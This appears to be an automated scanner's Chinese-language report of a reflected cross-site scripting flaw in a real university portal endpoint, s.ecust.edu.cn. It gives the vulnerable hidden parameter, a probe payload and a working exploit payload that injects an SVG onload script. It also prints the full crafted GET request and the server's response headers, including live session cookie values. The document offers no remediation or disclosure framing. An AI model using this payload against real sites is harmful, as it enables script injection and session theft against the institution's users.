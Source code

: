 ## http://s.ecust.edu.cn/portal/schoolCourseInfo/getalldepartment
| Key | Value |
| --- | ----- |
| XSS类型 | html |
| 时间 | 2024-11-07 18:18:52 |
| XSS位置 | get_parameter |
| 隐藏参数 | true |
| Key | ftype |
| 描述 | html标签未转义，可攻击 |
| Payload | ftype=</script><tp53t2> |
| 利用payload | ftype=</script><svg onload=alert(1)>// |

### 请求包
```
GET /portal/schoolCourseInfo/getalldepartment?begindate=bn258&callback=d4yk3&categoryid=bckk1&enddate=jv6s7&from=glh55&ftype=%3C%2Fscript%3E%3Ctp53t2%3E&keyword=thyz3&keywords=bwgk5&list_type=s4n49&month=qblo6&page=ssp30&pageNum=m83l6&search=ewj67&success=cf301&terms=rx8s0&thisurl=j9xl3&tid=kh7l8&token=ls7c7&unsubscribe_token=yx4k7&uri=aj615 HTTP/1.1
Host: s.ecust.edu.cn
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept-Charset: utf-8
Cookie: somecookie
Accept-Encoding: gzip


```

### 返回Header
```
Vary: Accept-Encoding
P3p: CP=CAO PSA OUR
X-Frame-Options: SAMEORIGIN
Connection: keep-alive
X-Permitted-Cross-Domain-Policies: none
Content-Type: text/html;charset=UTF-8
X-Download-Options: noopen
Server: CXS
Date: Thu, 07 Nov 2024 18:18:50 GMT
Set-Cookie: fanyaportal_jsessionid=A86A474745D3EA62E127608E4BEF4145.jvm14330; Path=/; HttpOnly fanyamoocs=11401F839C536D9E; Domain=ecust.edu.cn; Path=/; HttpOnly fanyaportala=cd73f6d68c67e9d5b858d02697ab683d; Path=/
X-Content-Type-Options: nosniff
X-Xss-Protection: 1; mode=block
Referrer-Policy: origin

```
